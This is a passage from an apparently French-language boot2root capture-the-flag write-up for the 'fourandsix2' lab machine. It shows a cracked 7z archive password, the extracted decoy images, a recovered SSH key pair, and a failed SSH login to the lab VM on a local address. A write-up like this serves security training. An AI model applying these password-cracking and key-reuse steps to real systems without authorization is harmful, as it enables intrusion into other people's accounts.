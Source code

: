 ```console
Cost 2 (padding size) is 6 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate        (backup.7z)
1g 0:00:00:01 DONE (2018-11-30 22:22) 0.8196g/s 26.22p/s 26.22c/s 26.22C/s 654321..butterfly
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

L'extraction des fichiers peut alors s'effectuer sans problème.

```console
root@blinils:~# cp /mnt/fourandsix/backup.7z .
root@blinils:~# 7z e backup.7z -pchocolate -ofolder_backup/ &>/dev/null
root@blinils:~# ls folder_backup/
hello1.jpeg  hello2.png  hello3.jpeg  hello4.png  hello5.jpeg
hello6.png  hello7.jpeg  hello8.jpeg  id_rsa      id_rsa.pub
```

## Cassage de la passphrase d'une clé privée SSH

Les huit images JPG et PNG sont celles du personnage [_Hello Kitty_](https://fr.wikipedia.org/wiki/Hello_Kitty) et ont vraisemblablement été placées là en guise de fausses pistes : aucune trace de flag dans les métadonnées des images ([__exiftool__](https://exiftool.org/)), aucun message caché dans les bits de poids faible des images ([__StegSolve__](http://www.caesum.com/handbook/stego.htm), [__zsteg__](https://github.com/zed-0xff/zsteg)), et rien dans les fichiers eux-mêmes ([_strings_](https://en.wikipedia.org/wiki/Strings_(Unix)), [_grep_](https://en.wikipedia.org/wiki/Grep)). Dommage ! Pas d'épreuve de [stéganographie](https://en.wikipedia.org/wiki/Steganography) ce coup-ci...

Les clés privée et publique SSH sont donc la piste la plus sérieuse, pour la suite de ce challenge boot2root. Il s'agit bel et bien d'une paire de clés SSH, car l'une comme l'autre produisent le même _fingerprint_.

```console
root@blinils:~/folder_backup# head -n1 id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
root@blinils:~/folder_backup# head -n1 id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDClNemaX//nOugJPAWyQ1aDMgfAS8zrJh++hNeMGCo+TIm9UxVUNwc6vhZ8apKZHOX0Ht+MlHLYdkbwSinmCRmOkm2JbMYA5GNBG3fTNWOAbhd7dl2GPG7NUD+zhaDFyRk5gTqmuFumECDAgCxzeE8r9jBwfX73cETemexWKnGqLey0T56VypNrjvueFPmmrWCJyPcXtoLNQDbbdaWwJPhF0gKGrrWTEZo0NnU1lMAnKkiooDxLFhxOIOxRIXWtDtc61cpnnJHtKeO+9wL2q7JeUQB00KLs9/iRwV6b+kslvHaaQ4TR8IaufuJqmICuE4+v7HdsQHslmIbPKX6HANn user@fourandsix2

root@blinils:~/folder_backup# ssh-keygen -l -f id_rsa
2048 SHA256:BPl29YrxUBdBmLaG6K58UGlR0wruEBQE8vGOtrbXl8Y user@fourandsix2 (RSA)
root@blinils:~/folder_backup# ssh-keygen -l -f id_rsa.pub
2048 SHA256:BPl29YrxUBdBmLaG6K58UGlR0wruEBQE8vGOtrbXl8Y user@fourandsix2 (RSA)
```

Puisque nous disposons de la clé privée SSH du compte ```user```, nous pouvons nous connecter au serveur avec.

```console
root@blinils:~/folder_backup# ssh -i id_rsa user@192.168.56.101
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
user@192.168.56.101's password: 
Permission denied, please try again.
user@192.168.56.101's password: 
Permission denied, please try again.
user@192.168.56.101's password: 
user@192.168.56.101: Permission denied (publickey,password,keyboard-interactive).
```
